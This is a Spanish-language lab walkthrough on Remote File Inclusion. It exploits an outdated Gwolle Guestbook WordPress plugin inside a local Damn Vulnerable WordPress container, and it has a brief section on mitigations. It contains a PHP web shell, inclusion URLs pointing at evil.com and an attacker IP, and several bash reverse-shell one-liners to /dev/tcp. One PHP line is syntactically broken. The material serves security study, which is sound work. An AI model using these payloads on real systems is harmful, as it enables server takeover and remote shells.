


# Remote File Inclusion (RFI)

## ¿Qué es la RFI?

La **Remote File Inclusion (RFI)** es una vulnerabilidad web que permite a un atacante **incluir archivos ubicados en servidores remotos** dentro de una aplicación vulnerable. Esto puede conducir a la **ejecución remota de código malicioso**, comprometiendo así el servidor.

>  Se produce cuando la aplicación **no valida correctamente** las entradas del usuario utilizadas para cargar archivos.

---

## ¿Cómo funciona?

Un atacante puede modificar una URL o parámetro para **incluir un archivo externo**. Si el servidor procesa este archivo, se ejecutará el código que contiene.

```php
<?php
  // Código vulnerable
  include($_GET['page']);
?>
```

Si accedemos a la URL:

```
http://victima.com/index.php?page=http://malicioso.com/shell.txt
```

Y el archivo `shell.txt` contiene código PHP malicioso, este será **ejecutado en el servidor víctima**.

---

## Ejemplo práctico (laboratorio)

### Escenario:
- Una web vulnerable permite cargar archivos con un parámetro `page`.
- El atacante crea un archivo malicioso (`shell.txt`) con una Web Shell PHP.
- El atacante sube el archivo a su servidor controlado (por ejemplo, http://evil.com/shell.txt).

### Paso a paso:

1. **Crear el archivo malicioso:**
   ```php
   <?php system($_GET['cmd']); ?>
   ```

2. **Subirlo a tu servidor (por ejemplo, usando Python):**
   ```bash
   python3 -m http.server 80
   ```

3. **Lanzar el ataque:**
	```
   http://victima.com/index.php?page=http://tu-ip/shell.txt&cmd=whoami
   ```

   Resultado esperado: se ejecuta `whoami` en el servidor víctima.

---

## Medidas de mitigación

- Validar y sanitizar TODAS las entradas del usuario.
- Deshabilitar `allow_url_include` y `allow_url_fopen` en el `php.ini`.
- Usar listas blancas de rutas y archivos permitidos.
- Aplicar el principio de **mínimo privilegio**.

---

## Notas finales

RFI es peligrosa porque permite **ejecución remota de código**, que puede usarse para subir shells, escalar privilegios o acceder a datos sensibles.

> Siempre que una aplicación cargue archivos dinámicamente, asegúrate de controlar estrictamente **qué rutas se aceptan** y **desde dónde se cargan**.

---

# Secuencia del ataque

Vamos a desglosar paso a paso como sería un ataque de *RFI*

## Paso 1 - Despliegue del laboratorio

[Proyecto GitHub - DVWP:](https://github.com/vavkamil/dvwp](https://github.com/vavkamil/dvwp)

[Plugin vulnerable de WordPress - Gwolle Guestbook:](https://es.wordpress.org/plugins/gwolle-gb/)

**DVWP:** se refiere a **Damn Vulnerable WordPress**, una versión deliberadamente insegura de WordPress para practicar **ataques a CMS**

Acción: clonamos repositorio en nuestra máquina local

```Shell
git clone https://github.com/vavkamil/dvwp
cd dvwp
docker-compose up -d --build
```

Resultado: tenemos un laboratorio en local para practicar la vulnerabilidad RFI

```URL
localhost:31337
```

Explicación: accedemos a la ruta donde tenemos montado el laboratorio, configuramos el servicio de WordPress y le damos a 'Install WordPress'



Acción: instalamos los plugin que el propio proyecto sugiere

```Shell
docker-compose run --rm wp-cli install-wp
```

Acción: 

```URL
https://downloads.wordpress.org/plugin/gwolle-gb.1.5.3.zip
```

Explicación: accedemos a la ruta del plugin facilitado anteriormente, le damos a descargar en una nueva ventana, cancelamos la descarga y cambiamos la URL el apartado de la versión del plugin, como en la página están almacenados todos los plugins, podemos acceder al que nos interesa.

Contexto: queremos instalar esta versión de 'Gwolle' que es un plugin desactualizado de WordPress que nos servirá para ejecutar un ataque **RFI** y poder derivarlo a un **RCE** 

Acción: para poder instalar el plugin vulnerable, nos lanzamos una bash de nuestro contenedor WordPress

```Shell
docker exec -it dvwp_wordpress_1 bash
ls -l
chown www-data:www-data -R wp-content/
ls -l
```

Resultado: 

```Shell
drwxr-xr-x 1 root     root         44 Apr 21 15:22 wp-content  -->  drwxr-xr-x 1 www-data www-data     44 Apr 21 15:22 wp-content
```

Explicación: necesitábamos cambiar el propietario de la carpeta `wp-content` para poder añadir desde nuestro usuario el plugin vulnerable

Instalar plugin: desde la pestaña 'Plugins' le damos a 'add new' y luego a 'upload plugin' para cargar el plugin descargado y terminamos dándole a 'Install now' y a 'Activate plugin'

![[instalar_plugin.png]]


Acción: localizar nuestro plugin

```Shell
pushd /usr/share/SecLists
find \-name \*plugin\*
```

Resultado:

```Shell
./Discovery/Web-Content/CMS/joomla-plugins.fuzz.txt
./Discovery/Web-Content/CMS/modx-revolution-plugins
./Discovery/Web-Content/CMS/wp-plugins.fuzz.txt
./Web-Shells/WordPress/plugin-shell.php
```

## Paso 2 - Aplicación de fuerza bruta

Acción:  accedemos a la ruta donde se encuentran los plugins y con **wfuzz** aplicamos fuera bruta contra la ruta donde tenemos el servicio de WordPress

```Shell
dirname ./Discovery/Web-Content/CMS/wp-plugins.fuzz.txt
cd $(dirname ./Discovery/Web-Content/CMS/wp-plugins.fuzz.txt)
cat wp-plugins.fuzz.txt
wfuzz -c --hc=404 -t 200 -w wp-plugins.fuzz.txt http://localhost:31337/FUZZ
```

Resultado: 

```Shell
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://localhost:31337/FUZZ
Total requests: 13370

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                      
=====================================================================

000000468:   403        9 L      28 W       277 Ch      "wp-content/plugins/akismet/"                                                
000004504:   200        0 L      0 W        0 Ch        "wp-content/plugins/gwolle-gb/"                                              
000004592:   500        0 L      0 W        0 Ch        "wp-content/plugins/hello.php"                                               
000004593:   500        0 L      0 W        0 Ch        "wp-content/plugins/hello.php/"                                              

Total time: 15.15196
Processed Requests: 13370
Filtered Requests: 13366
Requests/sec.: 882.3935
```

Explicación: hemos detectado manualmente los plugins que corren por el servicio de WordPress y tras detectar un plugin vulnerable como *gwolle* procedemos a buscar formas de explotarlo

Acción: buscamos exploits vía *searchsploit*

```Shell
searchsploit gwolle
```

Acción: examinamos el código del exploit encontrado

```Shell
searchsploit -x php/webapps/38861.txt
```


### RFI en Gwolle Guestbook (WordPress Plugin)

## Detalles del Aviso de Seguridad

El laboratorio de investigación de seguridad de **High-Tech Bridge** descubrió una vulnerabilidad crítica de **Remote File Inclusion (RFI)** en el plugin de WordPress **Gwolle Guestbook**, explotable por un atacante **no autenticado** para incluir archivos PHP remotos y ejecutar código arbitrario.

---

## Descripción Técnica

El parámetro `abspath` en una petición HTTP GET no se sanitiza adecuadamente antes de ser pasado a la función `require()` en PHP.

Esto permite incluir un archivo `wp-load.php` desde un servidor remoto:

```

http://[host]/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://[sitio_del_atacante]

```

>  Requiere que la directiva `allow_url_include` esté activada (`1`) en `php.ini`.

Si no lo está, **aún se pueden incluir archivos locales**, con posibilidad de ejecutar código arbitrario.

---

## Impacto

- Compromiso total de la instalación de WordPress.
- Posible compromiso completo del servidor web.

---

## Recomendaciones

- **Actualizar el plugin** a una versión segura.
- **Deshabilitar** `allow_url_include` en `php.ini`.
- **Validar y sanitizar** todas las entradas de usuario.

---

## Paso 3 - Explotación de vulnerabilidad

Acción: como se nos indica en la información del exploit hay que activar `allow_url_include` (`1`) en `php.ini`. Como no lo está, podemos modificarlo o añadirlo manualmente desde nuestro Docker ejecutándolo con una shell interactiva

```Shell
docker exec -it dvwp_wordpress_1 bash
apt update
apt install nano
nano php.ini
```

Resultado: modificamos el archivo `php.ini` para que quede así

```lua
display_errors = "on"
allow_url_include = "on" 
```

Explicación: añadimos el parámetro que se nos solicitaba en las instrucciones

Acción: para aplicar los cambios tenemos que restaurar el contenedor

```Shell
docker restart dvwp_wordpress_1
```

Acción: abrimos servidor con python

```Shell
python3 -m http.server 1234
```

Acción: accedemos a la ruta URL que se nos indicaba en las instrucciones del exploit e ingresamos nuestra IP de atacante

```URL
http://localhost:31337/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://192.168.1.66:1234/
```

Resultado:

```Shell
python3 -m http.server 1234
Serving HTTP on 0.0.0.0 port 1234 (http://0.0.0.0:1234/) ...
172.18.0.3 - - [21/Apr/2025 18:41:48] code 404, message File not found
172.18.0.3 - - [21/Apr/2025 18:41:48] "GET /wp-load.php HTTP/1.0" 404 -
```

Explicación: vemos que se esta tratando de cargar un archivo `wp-load.php`, es decir, tenemos una vía potencial de cargar archivos maliciosos

**Nota:** vemos que el código de estado es 404 (Not Found) porque actualmente el archivo no existe, si lo creamos con `touch wp-load.php` nos aparecería un estado 200. La clave está en escribir en este archivo el código *RCE* para obtener una *Shell Reverse* o ejecutar comandos

## Paso 4 - Ejecución de comandos

Acción: modificamos el archivo wp-load.php

```php
<?php
  system ("hostname -I");
?>
```

Resultado: al recargar el navegador con la ruta que establecimos por el exploit

```URL
172.18.0.3 
```

Explicación: hemos inyectado comandos remotamente desde el navegador al cargar un archivo malicioso aprovechando la vulnerabilidad de un plugin desactualizado. Vemos la IP de la víctima

Acción:

```php
<?php
  system ($_GET['cmd']_$);
?>
```

Acción:

```URL
http://localhost:31337/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://192.168.1.66:1234/&cmd=whoami
```

Acción

```URL
http://localhost:31337/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://192.168.1.66:1234/&cmd=bash -c "bash -i >&/dev/tcp/192.168.1.66/443 0>&1"
```

```URL
http://localhost:31337/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://192.168.1.66:1234/&cmd=bash -c "bash -i >%26/dev/tcp/192.168.1.66/443 0>%261"
```

**Nota:** cambiamos los dos últimos `&` en formato URL para no generar conflicto *( & = %26)*

Alternativa: podemos directamente en el archivo wp-load.php cargar la *Shell Reverse*

```php
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/TU_IP/PORT 0>&1'");
?>
```

Resultado: 

```Shell
<tml/wp-content/plugins/gwolle-gb/frontend/captcha$ whoami
whoami
www-data
<tml/wp-content/plugins/gwolle-gb/frontend/captcha$ hostname -I
hostname -I
172.18.0.3 
```

Explicación: escribimos el oneliner clásico para obtener una *Shell Reverse* mientras con *Netcat* estamos en escucha `nc -lvnp 443` 

## Paso 5 - TTY

Acción: tratamiento de la [[TTY Interactiva]] para obtener una Shell mejorada

```Shell
script /dev/null -c bash
ctrl+z
stty raw -echo; fg
reset xterm
stty rows 38 columns 183
export TERM=xterm
```

**Nota:** 

```Shell
stty size
16 142
stty size
38 183
stty size
44 183
```

Explicaicón: tenemos distintos tamaños ya que depende de si estamos en ventana reducida, pantalla completa o según el tamaño de la ventana en el momento de ejecutar `stty size` obtenemos unos valores distintos, nos quedamos con los valores que nos interesen.